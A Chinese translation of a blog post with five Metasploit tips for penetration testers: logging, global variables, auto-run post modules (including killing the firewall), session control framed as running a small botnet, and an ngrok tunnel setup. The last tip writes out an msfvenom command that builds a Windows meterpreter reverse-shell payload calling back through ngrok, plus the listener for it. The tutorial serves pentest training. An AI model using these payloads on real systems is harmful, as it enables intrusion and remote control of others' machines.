 # 掌握 Metasploit:我发现得太晚的五个技巧

> 原文：<https://blog.devgenius.io/mastering-metasploit-five-tips-that-i-discovered-too-late-61c5ecb7c938?source=collection_archive---------2----------------------->

![](img/5185b3e5ae52d8480487a352df3d1bc5.png)

# 0.开始时:

从一开始， [Metasploit](https://www.metasploit.com/) 就被认为是一个强大的工具，有助于探测跨网络的系统漏洞。该框架提供了一个模块化平台，用于执行漏洞利用、有效负载、辅助功能、编码器、监听器、外壳代码和开发后代码。利用这个包含强大功能的强大工具，我将探索一些我希望在第一次开始使用 Metasploit 框架时就知道的特性。

# 1.打破东西的记录和责任:

在渗透测试项目期间，必须提供访问证据、潜在影响，以及在负面情况下，目标系统上运行的命令的责任。如果生产中的设备变得无响应并离线，pentester 会记录产生这种情况所运行的命令，如果安全专家能够访问数据，他们会有一个日志文件来展示对组织的影响。这可以利用 Metasploit 的假脱机功能来实现。

要捕获在 Metasploit 中运行的模块的输出，请使用 spool 命令并指定一个目标日志文件:

```
msf6> spool /tmp/Company_A_DC.log
```

# 2.设置全局变量以避免混乱:

为了在 pentest 中节省大量的输入，安全专家可以在 Metasploit 中设置全局变量。这可以通过 setg 命令来完成。一旦设置好这些变量，就可以根据需要在任意数量的漏洞和辅助模块中使用这些变量。也可以保存它们以供下次启动 Metasploit 时使用。然而，缺陷是忘记保存的变量，所以在运行模块之前总是检查选项。相反，unsetg 命令可用于取消设置全局变量。在下面的例子中，变量以全大写形式输入(例如:LHOST)，但是 Metasploit 不区分大小写，所以没有必要这样做。

```
msf6 > setg LHOST 192.168.1.101
LHOST => 192.168.1.101
msf6 > setg RHOSTS 192.168.1.0/24
RHOSTS => 192.168.1.0/24
msf6 > setg RHOST 192.168.1.136
RHOST => 192.168.1.136
```

# 3.懒惰黑客的回调自动化:

在约定期间，等待反向 shell 的回调可能会很乏味。如果 pentester 希望在收到 shell 后自动运行命令和模块，他们可以利用 AutoRunScript 功能来实现。

```
msf6 >set AutoRunScript multi_console_command -rc /root/commands.rc
```

`/root/commands.rc`包含您希望运行的命令，例如:

```
run post/windows/manage/migrate
run post/windows/manage/killfw
run post/windows/gather/checkvm
```

# 4.僵尸网络的会话管理:

在控制多个被入侵的设备时，pentester 可以利用 sessions 命令来列出、执行和操纵连接。这在控制一个小型僵尸网络时，或者如果有人想欺骗一群不知情的同伴时(当然是合法的)，会非常有用。

列出所有会话:

```
msf6 > sessions -l
```

在所有会话中执行命令:

```
msf6 > sessions -C <command>
```

终止所有会话:

```
msf6> sessions -K
```

在许多平台上将 shell 升级到 meterpreter 会话:

```
msf6> sessions -u
```

# 5.用 Ngrok 攻击局域网外部:

Ngrok 是一项免费服务，它将运行在本地机器上的服务器共享到互联网上。虽然没有直接内置到 Metasploit 功能中，但 Ngrok 的功能与 Metasploit 的有效负载相结合，产生了致命的组合。这种“穷人的反向外壳”几乎消除了对端口转发的需求，允许对强化网络的快速入侵和回调。

在 [ngrok](https://dashboard.ngrok.com/get-started/setup) 中设置一个免费账户并启动 ngrok:

```
./ngrok tcp 9999

# Forwarding tcp://0.tcp.ngrok.io:19631 -> localhost:9999
```

创建恶意负载:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=0.tcp.ngrok.io LPORT=19631 -f exe > payload.exe
```

启动监听器:

```
msf6 > use exploit/multi/handler 
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp 
msf6 exploit(multi/handler) > set LHOST 0.0.0.0 
msf6 exploit(multi/handler) > set LPORT 9999 
msf6 exploit(multi/handler) > exploit
```

![](img/d2dec6e52caebbeab611aafb4e197254.png)

如果你喜欢这篇文章，并学到了一些有用的技巧，请随时关注我的 [Github](https://github.com/RoseSecurity) 反病毒规避技术库，不断更新的 Red-Teaming 和 pentest TTP，等等！